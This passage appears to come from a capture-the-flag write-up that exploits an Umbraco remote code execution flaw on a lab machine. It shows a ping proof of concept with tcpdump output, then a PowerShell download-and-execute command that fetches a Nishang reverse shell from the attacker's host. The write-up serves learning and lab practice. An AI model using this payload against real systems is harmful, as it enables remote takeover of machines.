 I find with things like this that I have the most luck if I run `cmd.exe`. So I’ll change `proc.StartInfo.FileName = "calc.exe"` to `proc.StartInfo.FileName = "cmd.exe"`. Just after that, there’s `proc.StartInfo.Arguments = cmd;`. The variable `cmd` is set right at the beginning, currently to the empty string.

#### Ping POC

As a proof of concept, I’ll set `cmd = "/c ping 10.10.14.19"`. On running, it prints some messages:

```

root@kali# python umbraco_rce_ping.py 
Start
[]
End

```

Then there are pings in `tcpdump`:

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:53:30.589383 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 1, length 40
16:53:30.589462 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
16:53:31.604147 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 2, length 40
16:53:31.604261 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 2, length 40
16:53:32.619998 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 3, length 40
16:53:32.620023 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 3, length 40
16:53:33.634646 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 4, length 40
16:53:33.634668 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 4, length 40

```

#### Shell

I’ll update the payload with the PowerShell loader that will download from my host a [Nishang](https://github.com/samratashok/nishang) PowerShell reverse shell and run it. The payload will be:

```

string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')";

```

To break that down, the target exe is still `cmd.exe`. It will run with `/c`, so running the command that follow. PowerShell will start, with `-c` to issue commands that follow. `iex` (shorthand for `Invoke-Expression`) will run whatever string comes back from the rest of the line. The rest of the line will reach out to my host, and download `shell.ps1` (which is then passed to `iex`).

I’ll grab a copy of `Invoke-PowerShellTcp.ps1` (and save it as `shell.ps1`), and add a line at the bottom to execute the shell:
